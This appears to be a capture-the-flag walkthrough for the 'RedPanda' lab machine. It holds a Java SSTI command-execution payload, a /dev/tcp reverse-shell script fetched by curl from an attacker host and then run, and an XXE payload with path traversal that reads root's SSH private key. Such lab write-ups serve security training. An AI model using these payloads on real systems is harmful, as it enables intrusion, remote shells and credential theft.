 # @author : M3tr1c_r00t
## RedPanda!
![RedPanda](https://user-images.githubusercontent.com/99975622/205444975-3447a92f-d56f-4465-9544-52a6585c047a.png)

### Enumeration...
nmap
![Screenshot_2022-11-20_15_38_51](https://user-images.githubusercontent.com/99975622/205445009-3f8ddebc-3c24-46b9-9fac-2c42433e57c1.png)
Looking at the nmap scan, only two ports are open...
Not having anything to useful from the nmap scan, lets visit the webpage and have a look at it.
![Screenshot_2022-11-20_15_39_16](https://user-images.githubusercontent.com/99975622/205445026-5d27a9dc-1c1a-43ae-be88-ec79661dc98a.png)
The site asks for some input for a panda name,  but it only seems to give output on some specific ones in its database.
On just sending empty data, we get a response...
![Screenshot_2022-11-20_15_39_25](https://user-images.githubusercontent.com/99975622/205445029-82573e84-7b15-4627-ae13-a4b8bca79b31.png)

After a bit of interaction with the site, i finally got a hold on how to gain access onto the system....
Plus, if you would have checked your wappalyzer extension, you would have noticed the system was running on a java kind of framework...

### SSTI
Finally got a foothold to work upon....
![image](https://user-images.githubusercontent.com/99975622/205456530-7d222419-936b-4b8c-af3b-5051c5ec7a92.png)
On trying to see id there's a SSTI vulnerability, if realized we could get a response while using the "*" special character...

![Screenshot_2022-11-20_15_40_23](https://user-images.githubusercontent.com/99975622/205445039-26d98841-5551-4ea9-9a22-6e75a0db605f.png)
The next step was to get a reverse shell... 
Took me a while to get a working code to help us get the reverse shell, but thanks to pentestmonkey's github repo, we got one...
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("cat /etc/passwd ")}
```
Trying the above code, it works....


Getting reverse shell,
uploading our reverse shell script.
![Screenshot_2022-11-20_15_46_11](https://user-images.githubusercontent.com/99975622/205445066-872fe492-1a70-4280-8216-943e0b4a325f.png)

I had some issues with getting the reverse shell using a one liner, so  we can upload a file and save it in the tmp directory then run bash directly on the file...

##### Code to put in the shell.sh file
```
#!/bin/bash
/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1'
```
Open a httpserver via python ....
```
python -m http.server 8000
```
Then upload your shell script....

```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl YOUR_IP:8000/shell.sh --output /tmp/shell.sh ")}
```
**Getting our reverse shell...**
<br> Make sure to set your listener.... 
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("bash /tmp/shell.sh")}
```
and boom! 
![Screenshot_2022-11-20_15_47_26](https://user-images.githubusercontent.com/99975622/205457657-02e0bff9-1d54-490b-8cb6-d52aba8d8aa1.png)

**Getting user flag....**
<br>Navigate to the home directory and get your user flag!
![Screenshot_2022-11-20_15_49_02](https://user-images.githubusercontent.com/99975622/205457694-762cf23e-949e-4f26-9b6f-624854c03d3e.png)

### Priviledge Escalation...
**Running linpeas...**
![Screenshot_2022-11-20_16_09_37](https://user-images.githubusercontent.com/99975622/205457719-dd406a39-31dc-492b-8e22-9f4f7cce0718.png)
Linpeas didn't really give us any useful information so i moved on to pspy64 to check if there are any activities running in the background....

**Running pspsy64...**
on looking at some output by pspy64, we can see there's a command running as root on a certain jar file...
![Screenshot_2022-11-20_16_16_56](https://user-images.githubusercontent.com/99975622/205457844-617cb601-5b83-444b-9b0e-7a8e14cdff73.png)

Next step, we grab that jar file and have a look at it....

#### Reverse Engineering the jar file so as to have an idea of what's happening

![Screenshot_2022-11-20_16_18_10](https://user-images.githubusercontent.com/99975622/205457896-dea997a6-ba1c-41df-9056-a2f524b68740.png)
On opening the file using jd-gui, we can analyze the source code...

In the main function, we can see there's a file being read....
```
/opt/panda_search/redpanda.log
```
There's also a split function(at the beggining of the code...) that splits code from the log file into new lines when it comes accross the "|" character....
<br>The program then gets the artists name from the metadata of an image from the Artist attribute.....
<br>It then creates the xml file from using the artists name and then uses the "uri" function to update the views onto the xml file.....
<br>We can already see there's a vulnerability in that we can exploit from the xml file...
<br>
<br>**You can check out this vulnerability from snyk...**
<br>https://security.snyk.io/vuln/SNYK-JAVA-ORGJDOM-1311147

### Expoiting the jar file...
_**1). Add the artist metadata to a jpg file...**_
<br> Go to the internet and get a normal jpg file....
```
exiftool -Artist="../tmp/author_name"  file.jpg
```
![Screenshot_2022-11-20_16_29_15](https://user-images.githubusercontent.com/99975622/205459241-00dab11a-2161-4825-aa96-8128efc122b8.png)

Then upload this image file to the tmp directory
__**2). Create an xml file in the /tmp/ directory...**__
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa" >]>
<credits>
  <author>author_name</author>
  <image>
    <uri>/../../../../../../tmp/file.jpg</uri>
    <views>1</views>
    <foo>&xxe;</foo>
  </image>
  <totalviews>2</totalviews>
</credits>
```
![Screenshot_2022-11-20_16_31_54](https://user-images.githubusercontent.com/99975622/205459255-a64fd126-cbe4-48bb-b94b-0e6cf5336f0e.png)


Then save it as: **author_name_creds.txt

__**3). Update the log file's content to match us for our expoit...**__
```
echo "222||a||a||/../../../../../../tmp/file.jpg" > /opt/panda_search/redpanda.log
```
Next, upload the files to the machine...
![Screenshot_2022-11-20_16_37_25](https://user-images.githubusercontent.com/99975622/205459282-d46ff746-f373-4ab6-a950-3e0ed9a29166.png)


After that, check the contents of the the xml file after a while, you'll see the rsa key contents dumped there....
![Screenshot_2022-11-20_16_44_36](https://user-images.githubusercontent.com/99975622/205459292-06b63818-b111-43db-9ea8-208a322abb12.png)

Now that we got the rsakey, make the nessesary file permissions change and login as root...
![Screenshot_2022-11-20_16_51_07](https://user-images.githubusercontent.com/99975622/205459318-5a293d71-a042-44ad-bedc-c1f69dd3de37.png)

And boom! 
<br> We are Root!

### Socials
@Instagram:https://instagram.com/M3tr1c_r00t
<br>@Twitter:https://twitter.com/M3tr1c_root



